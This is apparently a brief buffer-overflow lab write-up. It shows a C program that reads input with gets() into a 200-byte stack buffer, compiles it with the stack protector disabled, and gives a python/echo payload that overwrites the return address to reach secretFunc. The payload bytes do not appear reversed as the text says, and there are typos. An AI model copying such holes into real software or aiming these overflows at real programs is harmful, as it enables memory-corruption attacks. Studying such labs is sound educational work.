

## Bof 1
Source Code:
```
#include<stdio.h>

void secretFunc()
{
    printf("Congratulation!\n:");
}
int vuln(){
    char array[200];
    printf("Enter text:");
    gets(array);
    return 0;
}
int main(int argc, char*argv[]){
    if (argv[1]==0){
        printf("Missing arguments\n");
    }
    vuln();
    return 0;
}
```
Complie by gcc:
`gcc -g bof1.c -o bof1.out -fno-stack-protector -mpreferred-stack-boundary=2 `

Use gdb-peda to find `secretFunct` address:
`gdb bof1.out -q`
`disas secretFunc`

then quit gdb-peda by `q`

Run the program: get `200 bytes + 4 bytes + 'reverse of secretFunc address'` to character array `buffer`
`echo $(python -c "print('a'*204 + '\x08\x04\x84\x6b')"
) | ./bof1.out`
 